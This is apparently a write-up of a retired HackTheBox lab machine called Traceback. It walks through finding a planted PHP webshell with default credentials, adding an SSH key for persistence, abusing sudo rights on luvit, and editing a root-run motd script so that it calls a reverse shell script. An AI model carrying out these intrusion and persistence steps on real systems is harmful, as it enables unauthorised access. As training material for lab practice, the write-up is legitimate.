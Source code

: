 ```yaml
---
Category: B2R
Difficulty: Easy
Platform: HackTheBox
Retired: true
Status: 3. Complete
Tags:
  - OSINT
  - insecure-file-permissions
  - lua
  - luvit
  - webshell
  - Linux
---
```

### Improved skills

- OSINT
- Luvit lateral movement
- motd privilege escalation

### Used tools

- nmap
- owasp zap
- pspy64
- netcat

---

## Introduction & Foothold

Like for every CTF we made, let’s start scanning the box with **nmap**

```bash
$ nmap 10.10.10.181 --top-ports 25 --open -sC -sV -oA nmap/openPorts.txt
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

As we can see, there are only two services exposed: **SSH** (port 22) and the **Apache Web Server** (port 80).

Visiting the site, we discover that the machine **has been owned** and *there is a backdoor*

![1.png](../../zzz_res/attachments/1.png)

Looking to the source code of the page, a comment comes out.

![2.png](../../zzz_res/attachments/2.png)

Searching it on google, it reveals to be the description of a repo containing only web-shells. *We can suppose that one of those shells is the one used in this machine*.

Assuming this, lets **create a wordlist using the discovered shells’ name** and **fuzz** the web page in order to find the correct one.

![3.png](../../zzz_res/attachments/3.png)

![4.png](../../zzz_res/attachments/4.png)

**Bingo!** `smevk.php` is the web shell used on the box.

![5.png](../../zzz_res/attachments/5.png)

**Credentials** can be found **on the source code on github.** Easily guessable, the combination is `admin:admin`

![6.png](../../zzz_res/attachments/6.png)

Once inside, we can easily submit commands to the box. In order to get a more stable and comfortable shell, **I added my SSH key to the `authorized_keys` file**, obtaining an SSH access as **webadmin**.

![7.png](../../zzz_res/attachments/7.png)

![8.png](../../zzz_res/attachments/8.png)

## Lateral Movement to sysadmin

Listing all the files within the webadmin home directory, we discovered the presence of [Luvit](https://luvit.io/), a

>[!info]
> scripting platform just like node. This can be used to run lua scripts as standalone servers, clients, or other tools.


Furthermore, **webadmin has the permissions to run luvit as sysadmin** using **sudo**. It becames easy to perform action as sysadmin, like reading files

![9.png](../../zzz_res/attachments/9.png)

or getting a shell:

![10.png](../../zzz_res/attachments/10.png)

## Privilege Escalation

Analyzing the processes running on the machine I noticed the **presence of a process owned by the root modifiable by sysadmin**.

```bash
2020/03/15 15:45:01 CMD: UID=106  PID=28288  | sshd: [net]          
2020/03/15 15:45:01 CMD: UID=0    PID=28290  | run-parts --lsbsysinit /etc/update-motd.d 
2020/03/15 15:45:01 CMD: UID=0    PID=28289  | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2020/03/15 15:45:01 CMD: UID=0    PID=28297  | cut -c -80 
2020/03/15 15:45:01 CMD: UID=0    PID=28296  | 
2020/03/15 15:45:01 CMD: UID=0    PID=28295  | 
2020/03/15 15:45:01 CMD: UID=0    PID=28293  | /bin/sh /etc/update-motd.d/50-motd-news 
2020/03/15 15:45:01 CMD: UID=0    PID=28298  | run-parts --lsbsysinit /etc/update-motd.d 
2020/03/15 15:45:01 CMD: UID=0    PID=28299  | /usr/bin/python3 -Es /usr/bin/lsb_release -cs 
2020/03/15 15:45:01 CMD: UID=0    PID=28301  | /usr/sbin/CRON -f 
2020/03/15 15:45:01 CMD: UID=0    PID=28300  | /usr/sbin/CRON -f 
2020/03/15 15:45:01 CMD: UID=0    PID=28305  | /bin/cp /var/backups/.update-motd.d/00-header /var/backups/.update-motd.d/10-help-text /var/backups/.update-motd.d/50-motd-news /var/backups/.update-motd.d/80-esm /var/backups/.update-motd.d/91-release-upgrade /etc/update-motd.d/ 
2020/03/15 15:45:01 CMD: UID=0    PID=28304  | sleep 30 
2020/03/15 15:45:01 CMD: UID=0    PID=28303  | /bin/sh -c /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/ 
2020/03/15 15:45:01 CMD: UID=0    PID=28302  | /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/ 
2020/03/15 15:45:01 CMD: UID=0    PID=28306  | /usr/bin/python3 -Es /usr/bin/lsb_release -ds 
2020/03/15 15:45:01 CMD: UID=0    PID=28307  | /bin/sh /etc/update-motd.d/91-release-upgrade 
2020/03/15 15:45:01 CMD: UID=0    PID=28310  | cut -d  -f4 
2020/03/15 15:45:01 CMD: UID=0    PID=28309  | /usr/bin/python3 -Es /usr/bin/lsb_release -sd 
2020/03/15 15:45:01 CMD: UID=0    PID=28308  | /bin/sh /etc/update-motd.d/91-release-upgrade 
2020/03/15 15:45:02 CMD: UID=0    PID=28315  | sshd: sysadmin [priv]
2020/03/15 15:45:02 CMD: UID=1001 PID=28316  | -sh
```

`/etc/update-motd.d/50-motd-news` is called **every time a user logs into the box**, with **root privileges**. However, **this file can be edited from non-root users**. 

Abusing this issue, let’s use the reverse shell script used before in order to obtain a reverse shell as root at the next login.

```bash
sysadmin@traceback:~$ nano /etc/update-mot.d/50-motd-news

#!/bin/bash
/bin/bash /tmp/revShell.sh
...
```

![11.png](../../zzz_res/attachments/11.png)

# Trophy

>[!quote]
>Aim for the sky, but move slowly, enjoying every step along the way. It is all those little steps that make the journey complete.
>
>\- Chanda Kochhar

